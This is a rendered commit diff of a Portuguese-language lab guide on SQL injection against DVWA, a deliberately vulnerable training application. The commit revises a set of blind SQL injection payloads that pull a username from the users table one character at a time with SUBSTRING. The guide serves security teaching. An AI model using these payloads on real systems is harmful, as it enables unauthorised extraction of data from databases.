

Before and after one commit to roxacarv/segurancadesistemas, a Markdown page: dvwa/sql_injection_and_blind/sql_injection_and_blind.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revise SQL Injection documentation for clarity
Updated the SQL Injection and Blind SQL Injection documentation to enhance clarity and structure.

````diff
--- a/dvwa/sql_injection_and_blind/sql_injection_and_blind.md
+++ b/dvwa/sql_injection_and_blind/sql_injection_and_blind.md
@@ -138,7 +138,7 @@ Cookie: id=1' AND 1=1#
 
 #### Exemplo:
 
-1' AND SUBSTRING(user(),1,1)='a'#
+`1' AND SUBSTRING((SELECT user FROM users LIMIT 1),1,1)='a'#`
 
 Se TRUE, o primeiro caractere é 'a'.
 
@@ -148,10 +148,12 @@ Se TRUE, o primeiro caractere é 'a'.
 
 Repetir para cada posição:
 
-1' AND SUBSTRING(user(),2,1)='d'#
-1' AND SUBSTRING(user(),3,1)='m'#
-1' AND SUBSTRING(user(),4,1)='i'#
-1' AND SUBSTRING(user(),5,1)='n'#
+```sql
+1' AND SUBSTRING((SELECT user FROM users LIMIT 1),2,1)='d'#
+1' AND SUBSTRING((SELECT user FROM users LIMIT 1),3,1)='m'#
+1' AND SUBSTRING((SELECT user FROM users LIMIT 1),4,1)='i'#
+1' AND SUBSTRING((SELECT user FROM users LIMIT 1),5,1)='n'#
+```
 
 ---
 
````
